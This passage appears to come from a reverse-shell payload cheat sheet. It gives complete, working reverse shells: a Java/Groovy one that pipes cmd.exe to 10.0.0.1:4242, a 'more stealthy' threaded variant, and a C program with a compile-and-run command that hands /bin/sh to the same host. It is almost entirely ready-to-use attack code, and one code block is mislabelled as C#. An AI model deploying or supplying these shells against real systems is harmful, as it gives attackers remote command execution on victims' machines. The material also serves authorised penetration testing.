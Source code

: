 ### Groovy

by [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)
NOTE: Java reverse shell also work for Groovy

```java
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Groovy Alternative 1
**NOTE**: This is more stealthy

```java
Thread.start {
    // Reverse shell here
}
```

### C

Compile with `gcc /tmp/shell.c --output csh && csh`

```csharp
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4242;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```
